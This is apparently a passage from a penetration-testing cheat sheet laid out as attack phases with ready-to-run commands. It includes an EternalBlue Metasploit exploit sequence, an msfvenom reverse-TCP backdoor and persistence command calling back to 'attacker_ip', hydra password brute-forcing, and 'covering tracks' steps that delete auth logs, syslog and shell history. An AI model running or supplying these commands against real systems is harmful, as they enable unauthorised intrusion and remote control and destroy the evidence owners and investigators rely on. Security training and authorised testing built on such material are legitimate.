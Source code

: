 ### 2. Scanning & Enumeration

```bash
# Service version detection
nmap -sV $TARGET

# Vulnerability scanning
nmap --script vuln $TARGET

# Web application scanning
nikto -h http://$TARGET
```

### 3. Gaining Access

```bash
# Exploit database search
searchsploit apache 2.4

# Metasploit framework
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS $TARGET
exploit
```

### 4. Maintaining Access

```bash
# Create backdoor
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe > backdoor.exe

# Persistence
run persistence -X -i 30 -p 4444 -r attacker_ip
```

### 5. Covering Tracks

```bash
# Clear logs
rm -rf /var/log/auth.log
rm -rf /var/log/syslog

# Clear bash history
history -c
rm -rf ~/.bash_history
```

## Web Application Security Testing

### OWASP Testing Guide

```bash
# Information Gathering
# 1. Spidering and crawling
gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt

# 2. Authentication testing
hydra -l admin -P passwords.txt http-post-form "login.php:username=^USER^&password=^PASS^:Invalid"

# 3. Session management testing
burpsuite # Use Burp Suite for session testing
```
